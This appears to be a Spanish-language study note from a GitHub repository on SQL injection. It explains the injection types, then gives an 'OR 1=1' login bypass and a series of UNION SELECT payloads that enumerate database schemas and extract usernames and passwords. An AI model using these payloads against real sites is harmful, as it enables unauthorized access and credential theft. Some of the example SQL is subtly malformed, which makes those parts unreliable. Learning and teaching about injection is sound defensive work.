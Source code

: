 ## SQL Injection

### Indice
- [Tipos y funcionamiento general](#como)
- #### IN BAND
  *   [Union](#union)
  *   [Error](#error)
- #### BLIND
  *   [Boolean](#boolean)
  *   [Time](#tine)
- #### OUT OF BAND
  *   [Out of band](#out)
- <a href="https://deephacking.tech/sql-injection/">Mas info</a>
<a name="como"></a>
## Tipos y funcionamiento
Tenemos 3 tipos:
* IN BAND
  Es la que vemos la respuesta de la base de datos en la respuesta del servidor. Es la mas sencilla de todas. tendriamos de tipo UNION y ERROR.

* BLIND
  No veriamos la respuesta de la base de datos en ninguna respuesta del servidor, y tendriamos de tipo BOOLEAN y tipo TIME

* OUT OF BAND

### Ejemplo de funcionamiento inyección SQL
para realizar una inyeccion, debemos romper la query. por ejemplo en un formulario de usuario y contraseña en una web:  

en email ponemos el email, y en contraseña una contraseña  

la query "oficial" seria algo así:  

```
SELECT email,pass WHERE email = "emailintroducido" AND pass ="passintroducida";
```
para romper esa query, lo que hacemos es introducir una ' en el campo email o contraseña, seguida de la inyección y un comentario, quedaria así:  

email: eddy@gmail.com' comando de la inyeccion-- -  

pass: contraseña123  

ejemplo tipico de inyección por ejemplo en un formulario web:  
```
email: eddy@gmail.com' OR 1=1-- -
pass: contraseña123
```
y lo que haría realmente por detrás es:  
```
SELECT email,pass WHERE email = "eddy@gmail.com" OR 1=1 AND pass ="contraseña123";
```
con lo cual la lógica de base de datos, diría que si el email está contenido en la base de datos o 1 es igual a 1, cosa que siempre se cumple. iniciaremos sesión con el primer usuario de la tabla.


## IN BAND

<a name="union"></a>
### Union
Hay que tener en cuenta que cuando realizamos la instruccion UNION entre dos SELECT, ambos select deben tener el mismo numero de columnas. asi que lo primero es determinar el numero de columnas de la query que esta corriendo en el servidor.  
se puede hacer con un order by, ejemplo:  

empezamos con un order by 1, luego con un order by 2, y asi hasta que de error. cuando de error por ejemplo en el order by 4, pues sabemos que hay 3 columnas. 
```
' ORDER BY 1
' ORDER BY 2
' ORDER BY 3
' ...
```
Una vez determinado la cantidad de columnas de la query, vamos a investigar en la base de datos:  

suponiendo que tiene 3 columnas, ejecutamos la siguiente sentencia:  
```
'UNION SELECT schema_name, null,null FROM information_schema.schemata-- -
```
suponemos que encontramos las siguentes bases de datos:
* information_schema
* perfomance_schema
* mysql
* webserver

ahora vamos a indagar en webserver:  
```
'UNION SELECT table_name,null,null FROM information_schema.tables WHERE table_schema="webserver"-- -
```
suponemos que encontramos las siguientes tablas:  

* users
* books
* images
vamos a indagar en users:
```
'UNION SELECT column_name,null,null FROM information_schema.columns WHERE table_name="users" and table_schema="webserver"-- -
```

y vemos que tiene las columnas:
* id
* user
* password
ahora para extraer esos datos es tan sencillo como:
```
'UNION SELECT CONCAT(user,0x3a,password),null,null FROM users WHERE table_schema="webserver"-- - 
```
APUNTES:  

- el concat no es siempre necesario
- 0x3a en hexadecimal significa los dos puntos ":"
- el where no deberia ser necesario en caso de usuarios y claves xq ya la web está preparada para consultar en esa base de datos
